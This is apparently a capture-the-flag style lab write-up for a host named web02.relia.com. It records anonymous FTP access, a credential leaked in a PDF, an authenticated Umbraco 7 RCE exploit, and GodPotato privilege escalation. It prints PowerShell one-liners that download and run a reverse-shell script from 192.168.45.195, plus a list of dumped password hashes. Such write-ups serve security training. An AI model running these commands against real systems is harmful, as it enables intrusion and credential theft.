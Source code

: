 - There is FTP server running at port `14020` allowing anonymous access.![[Pasted image 20240220161113.png]]
- Retrieve the `pdf` and one can identify `umbraco` is running at port 80 with hostname `web02.relia.com` along with a pair of credential `mark@relia.com:OathDeeplyReprieve91` for basic configuration of the instance.![[Pasted image 20240220161321.png]]
- However, `Umbraco` is not running at port `80` or `443` but instead at `14080`. Since as the `pdf` states, it is running `Umbraco 7`, `searchsploit` can identify an `Authenticated RCE`.![[Pasted image 20240221133832.png]]
- Run `python3 49488.py -i http://web02.relia.com:14080 -u mark@relia.com -p OathDeeplyReprieve91 -c powershell.exe -a "-nop -w hidden -c iex(iwr http://192.168.45.195/Windows/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.195 443` to receive a reverse shell call back.
# PrivEsc
- `SeImpersonatePrivilege` is enabled, run `.\GodPotato-Net4.exe -cmd "powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.195/Windows/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.195 443"` to receive a reverse-shell as `nt authority\system`
# Loot
- `mark`: dcbbff66580202a5cbede9c010281ce9
- `zachary`: 54abdf854d8c0653b1be3458454e4a3b
- `Administrator` 2f2b8d5d4d756a2c72c554580f970c14